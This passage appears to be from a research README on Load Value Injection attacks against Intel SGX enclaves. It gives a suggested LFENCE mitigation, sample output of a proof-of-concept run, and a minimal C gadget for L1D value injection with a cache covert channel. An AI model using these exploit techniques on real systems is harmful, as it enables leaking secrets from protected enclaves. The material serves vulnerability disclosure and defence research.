 **Suggested mitigation.** Insert an LFENCE instruction to halt the processor pipeline after the potentially faulting trusted enclave load operation (in between lines 4 and 5).

**Proof-of-concept code.** Enable this PoC through `#define LVI_SB 1` in `main.c`. Example output for `make run` as follows (on a processor vulnerable to [Fallout](https://mdsattacks.com/)/[MSBDS](https://software.intel.com/security-software-guidance/insights/deep-dive-intel-analysis-microarchitectural-data-sampling)):

```$ make run
Flush+Reload Threshold: 224
[sched.c] continuing on CPU 1
[main.c] Creating enclave...
==== Victim Enclave ====
[pt.c] /dev/sgx-step opened!
    Base:   0x7fea68000000
    Size:   8388608
    Limit:  0x7fea68800000
    TCS:    0x7fea684c4000
    SSA:    0x7fea684c5f48
    AEP:    0x7fea6a973845
    EDBGRD: debug
[main.c] oracle at 0x5590313d7000
[main.c] user_page at 0x5590314d7000
[main.c] enclave_page_a at 0x7fea68220000 w PTE
[pt.c] /dev/mem opened!
+-------------------------------------------------------------------------------------------+
| XD | PK | IGN | RSVD | PHYS ADRS      | IGN | G | PAT | D | A | PCD | PWT | U/S | R/W | P | 
| 0  | x  | x   | 0    | 0x000070675000 | x   | x | x   | 1 | 1 | x   | x   | 1   | 1   | 1 | 
+-------------------------------------------------------------------------------------------+
[main.c] enclave_page_b at 0x7fea6821f000 w PTE
+-------------------------------------------------------------------------------------------+
| XD | PK | IGN | RSVD | PHYS ADRS      | IGN | G | PAT | D | A | PCD | PWT | U/S | R/W | P | 
| 0  | x  | x   | 0    | 0x000070676000 | x   | x | x   | 1 | 1 | x   | x   | 1   | 1   | 1 | 
+-------------------------------------------------------------------------------------------+
S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S S 
```

## LVI-SB: L1D injection

Consider the minimal example gadget code below:

--------------------------------------------------------------------------------
```C
1 char __attribute__((aligned(0x1000))) page_a[4096] = {'A'}, page_b[4096] = {'B'};
2 
3 void ecall_lvi_remap(char *oracle)
4 {
5   a = *page_a;           /* VICTIM PREFETCH: load 'A' at valid enclave physical address into L1 */
7   b = *page_b;           /* VICTIM LOAD: inject 'A' from remapped physical address and override trusted value 'B' */
8   leak = oracle[4096*b]; /* VICTIM ENCODE: e.g., cache-based covert channel gadget */
9 }
```
--------------------------------------------------------------------------------
